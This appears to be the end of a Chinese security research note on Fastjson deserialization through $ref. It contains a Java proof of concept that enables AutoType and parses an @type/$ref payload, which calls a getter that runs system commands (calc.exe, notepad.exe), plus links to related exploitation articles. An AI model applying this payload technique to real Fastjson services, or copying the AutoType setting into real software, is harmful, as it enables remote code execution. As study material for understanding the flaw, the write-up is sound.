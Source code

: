 ```java
        Runtime.getRuntime().exec(cmd);
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }
}
```

Poc.java

```java
package com.ref.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Poc {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload =
                "[{\"@type\":\"com.ref.demo.User\",\"cmd\":\"calc.exe\"},{\"@type\":\"com.ref.demo.User\",\"cmd\":\"notepad.exe\",\"test\":\"test\"},{\"$ref\":\"$[1].cmd\"}]";

        Object o = JSON.parse(payload);
    }
}
```

## 参考

**如何调用getConnection：https://jlkl.github.io/2021/12/18/Java_07/**

$ref详解：https://paper.seebug.org/1613/

fastjson ref利用：https://blog.csdn.net/solitudi/article/details/120275526

**fastjon中BasicDataSource的利用：https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html**